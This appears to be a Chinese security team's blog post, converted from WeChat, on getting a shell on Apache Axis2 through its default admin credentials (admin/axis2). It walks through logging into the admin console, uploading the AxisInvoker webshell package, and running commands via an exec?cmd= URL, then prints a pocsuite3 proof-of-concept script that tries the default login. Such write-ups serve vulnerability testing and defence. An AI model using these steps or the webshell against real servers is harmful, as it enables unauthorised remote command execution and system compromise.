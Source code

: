 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Gp_FMM-n472wYTBA5lC3lw)

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXu3bXekvbOVFvAicpfFJwIOcQOuakZ6jTmyNoeraLFgI4cibKrDRiaPAljUry4dy4e2zK8lUMyKfkGg/640?wx_fmt=png)

1.Axis2 简介
----------

Axis2 是下一代 Apache Axis。Axis2 虽然由 Axis 1.x 处理程序模型提供支持，但它具有更强的灵活性并可扩展到新的体系结构。Axis2 基于新的体系结构进行了全新编写，而且没有采用 Axis 1.x 的常用代码。支持开发 Axis2 的动力是探寻模块化更强、灵活性更高和更有效的体系结构，这种体系结构可以很容易地插入到其他相关 Web 服务标准和协议（如 WS-Security、WS-ReliableMessaging 等）的实现中。

Apache Axis2 是 Axis 的后续版本，是新一代的 SOAP 引擎。

2. 漏洞类型
-------

弱口令漏洞 + 上传 arr 包 Getshell

推荐一个 axis2 的 webshell  https://github.com/CaledoniaProject/AxisInvoker

```
axis2的webshell：运行ant -v以构建它，您可以在build目录中找到已编译的归档文件build/AxisInvoker.aar
```

3. 漏洞详情
-------

Axis2 控制面板界面如下：

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RV2Bkic7utvcXFpXXCH8CZI8xoiaZBaN8hkW6CRSlPJyia2bk66Q9aIxnvPvm3zFV5gGmZCLas0Z6LZw/640?wx_fmt=png)

后台登录路径：http://ip:port/axis2/axis2-admin/

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RV2Bkic7utvcXFpXXCH8CZI88vwPxtDLNMLskBm4ObfL6zRCIy3DlwfBOeFdu5HZhxyGohJjt1MXrA/640?wx_fmt=png)

默认口令为：admin/axis2，登录后截图。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RV2Bkic7utvcXFpXXCH8CZI8AkZ9bsSjgt8R6oSWSIJjj7IEibralTM0hv2njtv3Sldkkg8eiasOcMZg/640?wx_fmt=png)

上传. aar 包，如图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RV2Bkic7utvcXFpXXCH8CZI8ekaXtyf2kAwkLib8Vzflict7WFmwWRdqhlmt5u8vIGLhsT0ia7O4ehO8Q/640?wx_fmt=png)

根据 GitHub Readme 简介，访问对应 URL 进行命令执行，从而 Getshell。如图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RV2Bkic7utvcXFpXXCH8CZI83NUYia3WcBXvJRHajRkqKTuc27gSLNOqJyc5R7V6uich6eJicgM40rRRQ/640?wx_fmt=png)

http://ip:port/axis2/services/AxisInvoker/exec?cmd=ipconfig

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RV2Bkic7utvcXFpXXCH8CZI8p3O3Dz58f57wf5xekPa0ARPl5Tk5LhFCiaUEpmgQgYQulcBnU5XCLxA/640?wx_fmt=png)

pocsuite3 poc code
------------------

潮声漏洞检测平台已支持此漏洞检测：http://poc.tidesec.com/

```
from pocsuite3.api import Output, POCBase, POC_CATEGORY, register_poc, requests, VUL_TYPEclass DemoPOC(POCBase):    vulID = 'XXXX'  # ssvid    version = '1.0'    author = ['VllTomFord']    vulDate = '2019-12-13'    createDate = '2019-12-13'    updateDate = '2019-12-13'    references = ['']    name = 'Axis2弱口令Getshell'    appPowerLink = ''    appName = 'Axis2'    appVersion = 'all'    vulType = VUL_TYPE.CODE_EXECUTION    desc = '''Axis2弱口令部署aar包Getshell'''    samples = []    install_requires = ['']    category = POC_CATEGORY.EXPLOITS.WEBAPP    def _verify(self):        result = {}        path = "/axis2/axis2-admin/"        r = requests.get(url = self.url+path)        if "Login to Axis2" in r.text:            loginpath = "/axis2/axis2-admin/login"        # 字典方式        data = {            "userName": "admin",            "password": "axis2",            "submit": "+Login+"        }        r = requests.post(url=self.url+loginpath, data=data)        if "Upload Service" in r.text:            result['FileInfo'] = {}        return self.parse_output(result)    def _attack(self):        return self._verify()    def parse_output(self, result):        output = Output(self)        if result:            output.success(result)        else:            output.fail('target is not vulnerable')        return outputregister_poc(DemoPOC)
```

4. 参考链接
-------

https://xz.aliyun.com/t/5832

https://www.ouyangxiaoze.com/2019/12/525.html

E

N

D

**关**

**于**

**我**

**们**

Tide 安全团队正式成立于 2019 年 1 月，是新潮信息旗下以互联网攻防技术研究为目标的安全团队，团队致力于分享高质量原创文章、开源安全工具、交流安全技术，研究方向覆盖网络攻防、系统安全、Web 安全、移动终端、安全开发、物联网 / 工控安全 / AI 安全等多个领域。

团队作为 “省级等保关键技术实验室” 先后与哈工大、齐鲁银行、聊城大学、交通学院等多个高校名企建立联合技术实验室，近三年来在网络安全技术方面开展研发项目 60 余项，获得各类自主知识产权 30 余项，省市级科技项目立项 20 余项，研究成果应用于产品核心技术研究、国家重点科技项目攻关、专业安全服务等。对安全感兴趣的小伙伴可以加入或关注我们。

![](https://mmbiz.qpic.cn/mmbiz_gif/rTicZ9Hibb6RX4MU7S4WB8R6vF3JbUjA7K0ZtOPxqGSo1HGPhTDicQibOro93UYNBOwRPd4EFseGTDsl1tan0ZXcmw/640?wx_fmt=gif)

我知道你**在看**哟

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVJq73PAV8iaQCPQyOPyU8Ogkicew5KMd52mUWzJfFj3dJZvlic64DFticvDw8cFIBUwubIQAkF5IXQtw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/rTicZ9Hibb6RVJq73PAV8iaQCPQyOPyU8OgTqzpHQhUIM8BG5s07pmhaElGiclG2tlw7ceJtrgVwZepMEpQpdvic1xg/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_gif/rTicZ9Hibb6RVJq73PAV8iaQCPQyOPyU8Og23eRiaUlSIpFGAOzOUv2fVVWr1ZKozfELyDaWWnpGmfabNTNiblArbdw/640?wx_fmt=gif)